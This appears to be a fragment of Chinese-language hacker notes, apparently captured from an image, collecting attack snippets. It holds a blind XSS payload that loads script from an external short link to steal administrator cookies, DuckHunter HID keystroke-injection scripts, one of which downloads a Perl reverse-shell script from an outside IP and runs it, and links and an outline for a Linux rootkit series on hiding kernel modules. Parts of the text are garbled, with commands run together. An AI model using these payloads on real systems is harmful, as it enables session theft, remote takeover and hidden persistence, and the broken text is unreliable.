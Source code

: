





```
</textarea>'"><script src=http://t.cn/R63bUP9></script>
```

XSS盲打 ,通过XSS盲打可以直接拿到管理员登录的账号的Cookie等信息 

"Nethunter"的黑客操作系统 ,工具叫做DuckHunter HID 

```
CONTROL SPACE
STRING iterm
ENTERENTER
STRING
ifconfig
ENTER
```

反弹Shell 

```
CONTROL SPACE
STRING iterm 
ENTERENTER
STRING wget http://45.32.8.108/b.pl.txt -O /tmp/b.plSTRING perl /tmp/b.pl 
反弹监听IP 监听端口
ENTER
```



[Linux Rootkit系列一：LKM的基础编写及隐藏](http://www.freebuf.com/articles/system/54263.html) 

[Linux Rootkit 系列二：基于修改 sys_call_table 的系统调用挂钩](http://www.freebuf.com/sectool/105713.html) 

[Linux Rootkit系列三：实例详解 Rootkit 必备的基本功能](http://www.freebuf.com/articles/system/107829.html)

 [Linux Rootkit 系列四：对于系统调用挂钩方法的补充](http://www.freebuf.com/articles/system/108392.html) 

[Linux Rootkit 系列五：感染系统关键内核模块实现持久化](http://www.freebuf.com/articles/system/109034.html) 

# 1.[LKM的基础编写及隐藏](http://www.freebuf.com/articles/system/54263.html)

**LKM的全称为Loadable Kernel Modules，中文名为可加载内核模块，主要作用是用来扩展linux的内核功能。**LKM的优点在于可以动态地加载到内存中，无须重新编译内核。由于LKM具有这样的特点，所以它经常被用于一些设备的驱动程序，例如声卡，网卡等等。当然因为其优点，也经常被骇客用于rootkit技术当中。 

## 1.基本的LKM的编写

​	就是驱动的编写，这是因为我们并没有对于我们的消息指定KERN_ALERT优先级,此时printk将消息传输到了系统日志syslog中，我们可以在/var/log/messages中查看，当然，在不同的发行版以及不同的syslog配置中，该文件的路径不同。cat /var/log/messages或者利用dmesg命令查看printk输出的消息

## 2.从lsmod命令中隐藏我们的模块

